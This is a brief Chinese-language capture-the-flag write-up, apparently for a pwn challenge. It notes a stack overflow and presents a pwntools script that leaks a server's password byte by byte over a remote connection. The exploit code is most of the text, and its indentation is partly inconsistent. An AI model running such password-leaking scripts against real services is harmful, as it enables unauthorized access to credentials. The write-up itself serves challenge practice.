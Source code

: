 明显的栈溢出，但是最简单的做法就是直接泄露出密码：
```PY
#!/usr/bin/env python
# coding=utf-8

from pwn import *
passwd = ""
#context.log_level = "debug"
for i in range(32):
    try:
        p = remote("10.21.13.203",1234)    #process("./server")
        p.send(passwd.ljust(22,'\xff'))
        tmp = 0xff - ord(p.recvuntil('bye~')[63])
        passwd += chr(tmp)
        log.info(passwd)
    except:
        pass
	finally:
		p.shutdown()
```

![](./images/1.png)

![](./images/2.png)
